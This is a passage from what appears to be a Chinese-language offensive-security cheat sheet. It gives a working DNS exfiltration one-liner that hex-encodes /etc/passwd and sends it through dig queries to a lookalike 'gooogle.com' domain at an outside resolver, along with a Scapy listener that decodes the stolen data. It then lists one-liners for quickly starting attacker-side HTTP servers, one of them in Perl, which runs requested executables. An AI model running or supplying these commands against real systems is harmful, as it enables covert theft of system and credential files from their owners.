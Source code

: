```
python3 ping_receiver.py
```

DIG
发送端:
```
xxd -p -c 31 /etc/passwd | while read line; do dig @172.16.1.100 +short +tries=1 +time=1 $line.gooogle.com; done
```
接收端`dns_reciver.py`:
```
try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")

def process_packet(pkt):
    if pkt.haslayer(DNS):
        domain = pkt[DNS][DNSQR].qname.decode('utf-8')
        root_domain = domain.split('.')[1]
        if root_domain.startswith('gooogle'):
            print(f'{bytearray.fromhex(domain[:-13]).decode("utf-8")}', flush=True, end='')

sniff(iface="eth0", prn=process_packet)
```
```
python3 dns_reciver.py
```
... 
### 搭建 HTTP server
python2
```
python -m SimpleHTTPServer 1337
```
python3
```
python -m http.server 1337
```
PHP 5.4+
```
php -S 0.0.0.0:1337
```
ruby
```
ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 1337, :DocumentRoot => Dir.pwd).start'
```
```
ruby -run -e httpd . -p 1337
```
Perl
```
perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>1337); $s->mount("/"=>{path=>"."}); $s->start'
```
```
perl -MIO::All -e 'io(":8080")->fork->accept->(sub { $_[0] < io(-x $1 +? "./$1 |" : $1) if /^GET \/(.*) / })'
```
busybox httpd
```
busybox httpd -f -p 8000
```
